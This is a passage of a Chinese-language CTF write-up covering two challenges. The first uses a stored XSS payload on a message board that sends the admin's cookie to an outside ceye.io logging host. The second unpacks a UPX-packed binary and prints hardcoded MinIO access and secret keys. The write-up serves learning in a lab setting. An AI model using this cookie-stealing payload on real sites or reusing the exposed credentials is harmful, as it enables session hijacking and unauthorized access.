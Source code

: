 ![image-20250206160449456](../assets/image-20250206160449456.png)

![image-20250206160507469](../assets/image-20250206160507469.png)

根据这句话大概可以猜到，访问/admin路由的时候应该会在后端以admin的身份来访问留言板

也就是说我们可以进行cookie窃取

payload:

```
<script>document.location='http://dfny33.ceye.io?'+document.cookie;</script>
```

将payload输出在留言板，然后访问/admin

![f01e1737d9537ace6383c2aa28b8be2](./assets/f01e1737d9537ace6383c2aa28b8be2.jpg)

成功拿到admin的cookie

拿admin的cookie访问/flag即可拿到flag



### Level 25 双面人派对

![image-20250206161540205](../assets/image-20250206161540205.png)

这道题有两个环境，一开始以为是re，其实感觉更像是misc

访问app.service-web可以拿到一个main文件

是一个elf文件

用exeinfo PE查到用upx加壳了

![image-20250206161827725](../assets/image-20250206161827725.png)

用upx官方工具就可以脱壳

https://github.com/upx/upx/releases/latest

脱壳之后用ida打开

![image-20250206162100313](../assets/image-20250206162100313.png)

可以找到一段关于minio的密钥信息

```
.noptrdata:0000000000D614E0	000000AA	C	minio:\r\n  endpoint: \"127.0.0.1:9000\"\r\n  access_key: \"minio_admin\"\r\n  secret_key: \"JPSQ4NOBvh2/W7hzdLyRYLDm0wNRMG48BL09yOKGpHs=\"\r\n  bucket: \"prodbucket\"\r\n  key: \"update\" 
```
